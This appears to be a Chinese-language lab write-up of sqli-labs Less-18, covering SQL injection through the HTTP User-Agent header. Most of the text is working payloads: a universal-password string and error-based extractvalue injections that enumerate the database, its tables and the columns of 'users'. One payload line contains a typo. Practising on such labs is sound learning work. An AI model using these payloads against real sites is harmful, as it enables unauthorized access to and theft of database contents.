![image-20220115174057494](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less18-http%E5%A4%B4%E6%B3%A8%E5%85%A5.assets/image-20220115174057494.png)



猜测它的语句可能为：

```
insert into 'security'.'uagents'('uagent','ip_address','username') values('\','127.0.0.1','admin');
```

即单引号闭合。



那么我们就可以根据原语句把它的单引号闭合，并让它**能正确执行语句**——那么考虑使用万能密码和报错注入：

```
' or '1'='1
```

或者用and也可

```
' and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '1'='1

' and extractvalue(1,concat(0x7e,(select database()),0x7e)) or '1'='1
```

![image-20220115175923133](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less18-http%E5%A4%B4%E6%B3%A8%E5%85%A5.assets/image-20220115175923133.png)

```
' or extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema="security"),0x7e)) or '1'='1

因为其实value提交的值是空的，也就是错误，用and 需要都是对的才行
1' a extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema="security"),0x7e)) or '1'='1
```

```
' or extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="users"),0x7e)) or '1'='1
```

![image-20220115184420602](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less18-http%E5%A4%B4%E6%B3%A8%E5%85%A5.assets/image-20220115184420602.png)
